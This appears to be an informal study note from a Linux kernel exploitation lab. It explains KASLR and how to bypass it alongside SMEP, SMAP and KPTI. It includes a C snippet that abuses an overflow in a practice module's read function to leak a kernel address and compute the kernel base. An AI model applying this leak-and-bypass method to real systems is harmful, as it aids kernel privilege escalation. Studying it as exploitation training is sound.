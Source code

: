 some prerequisites...

### About KASLR

`kaslr` is similar to `aslr` in userland. 

The kernel reserves 1 GB of address space from `0xffffffff80000000` to `0xffffffffc0000000`. Therefore, even if `KASLR` is enabled, only `0x3f0` or so base addresses will be generated from `0x810` to `0xc00`.

![](pics/img00.png)

To deal with `KASLR`, we have to leak any kernel address, then calculate offset and padding them to exploit like before.

**Attention**

When debugging, navigate symbols from kernel like this:

```bash
cat /proc/kallsyms | grep startup_64
```

only can view with `id = 0` (root)

### KASLR affect to gadgets?

i met the same issues with this guy...

read the bypass kaslr part, about gadget finding errors: https://blog.wohin.me/posts/pawnyable-0201/

> retry other gadgets until success i guess...

### KASLR: +smep, +smap, kpti=on, kaslr

**Summary**:

The overflow bug also in `module_read` function. So we can use that to leak the kernel address that available after the saved `RIP`, similar to this:

```C
void leak_kernel_addr()
{
    u64 buf[200];
    u64 rip_offset = 0x408;

    u64 len = rip_offset + 8;
    read(dev_fd, (char *)&buf, len);

    u64 leak_addr = buf[0x408/8];
    kernel_base = leak_addr - 0x13d33c; // 0xffffffff8113d33c - 0xffffffff81000000
    printf("[?] kernel_base: 0x%lx\n", kernel_base);
    ...
```

- leak kernel base then perform exploit like previous `kpti` bypass
- remember to add offset to corresponding gadgets...

> exploit in the same folder